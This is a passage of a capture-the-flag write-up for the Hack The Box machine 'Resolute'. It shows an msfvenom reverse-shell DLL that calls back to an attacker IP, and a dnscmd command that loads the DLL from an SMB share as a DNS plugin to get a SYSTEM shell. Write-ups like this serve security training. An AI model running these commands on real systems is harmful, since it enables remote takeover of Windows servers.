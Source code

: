 ```bash
root@w0lf:~/CTF/HTB/Boxes/Resolute# msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=1234 -f dll > root.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 5120 bytes
```

### Uploading the Payload:

I used SMB Server to host our payload.

This command will inject our payload.

```bash
dnscmd resolute /config /serverlevelplugindll \\10.10.14.6\share\root.dll
```

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-resolute/Untitled%204.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-resolute/Untitled%204.png)


Started my nc listener and we need to restart the service, so the `dll` will be triggered and we get the shell with Administrator privileges.<br/>
![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-resolute/Untitled%205.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-resolute/Untitled%205.png)

We own the System.